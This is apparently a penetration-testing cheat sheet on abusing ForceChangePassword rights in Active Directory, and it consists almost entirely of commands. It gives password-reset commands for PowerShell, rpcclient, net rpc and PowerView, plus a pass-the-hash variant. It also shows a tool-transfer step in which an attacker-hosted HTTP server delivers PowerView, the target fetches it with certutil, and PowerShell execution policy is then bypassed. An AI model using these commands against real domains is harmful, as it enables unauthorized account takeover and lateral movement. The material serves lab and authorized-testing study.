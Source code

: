 # ForceChangePassword rights

This abuse can be carried out when controlling an object that has a `GenericAll`, `AllExtendedRights` or `User-Force-Change-Password` over the target user.



<figure><img src="../../../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

## PowerShell

{% code overflow="wrap" %}
```powershell
$userIdentity = 'CN=Michael Williams,CN=Users,DC=administrator,DC=htb'

Set-ADAccountPassword -Identity $userIdentity -Reset -NewPassword (ConvertTo-SecureString -AsPlainText "Password123!" -Force)
```
{% endcode %}



## RPC&#x20;

<pre class="language-bash" data-title="rpcclient"><code class="lang-bash">rpcclient -U DOMAIN.COM/USER DC_IP

<strong>setuserinfo2 USER_TO_CHANGE_PASS 23 'NewPassword123!'
</strong></code></pre>

{% code title="Net" overflow="wrap" %}
```bash
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"

# Pass-the-Hash
pth-net rpc password "$TargetUser" -U "$DOMAIN"/"$USER"%"ffffffffffffffffffffffffffffffff":"$NT_HASH" -S "$DC_HOST"
```
{% endcode %}







## PowerView

Import powerview

{% code title="transfer PowerView" overflow="wrap" %}
```bash
# attack machine
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1
python3 -m http.server 80

# target machine windows
certutil -urlcache -f http://IP/PowerView.ps1 PowerView.ps1
```
{% endcode %}

{% code title="Import PowerView" %}
```powershell
powershell -ep bypass
. .\PowerView.ps1
```
{% endcode %}



Now we can force change the micheal's password.

{% code title="Create Password" overflow="wrap" %}
```powershell
$SecPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('DOMAIN\USER', $SecPassword)

```
{% endcode %}

{% code title="Convert pswd in secure string" %}
```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
```
{% endcode %}

{% code title="Set password to user" overflow="wrap" %}
```powershell
Set-DomainUserPassword -Identity <USER> -AccountPassword $UserPassword -Credential $Cred
```
{% endcode %}



